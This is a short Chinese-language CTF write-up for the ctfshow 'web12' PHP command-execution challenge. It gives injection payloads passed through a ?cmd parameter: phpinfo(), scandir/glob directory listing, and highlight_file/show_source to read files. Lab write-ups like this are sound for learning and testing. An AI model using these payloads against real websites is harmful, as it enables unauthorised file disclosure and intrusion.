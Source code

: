 ## ctfshow web12
考察:命令执行
知识点:
```
glob() 函数返回匹配指定模式的文件名或目录。
举个例子:
glob("*") 匹配任意文件
glob("*.txt")匹配以txt为后缀的文件
```

查看网页源代码发现 ?cmd
![图片](https://user-images.githubusercontent.com/81904597/113653035-9822ae00-96c7-11eb-9fbe-2ee06d317b0c.png)
目测考察命令执行
输出一下phpinfo()
```
?cmd=phpinfo();
```
里面禁用了很多函数
![图片](https://user-images.githubusercontent.com/81904597/113653163-e172fd80-96c7-11eb-88c1-a5df058909e2.png)

查看一下目录的文件(两种方式)
```
?cmd=print_r(scandir('.'));
?cmd=print_r(glob("*"));
```
![图片](https://user-images.githubusercontent.com/81904597/113653282-1ed78b00-96c8-11eb-9319-97b2312427af.png)
利用下面的让代码显示一下即可
```
highlight_file()
show_source()
```
参考yu师傅博客:https://blog.csdn.net/miuzzx/article/details/104372662
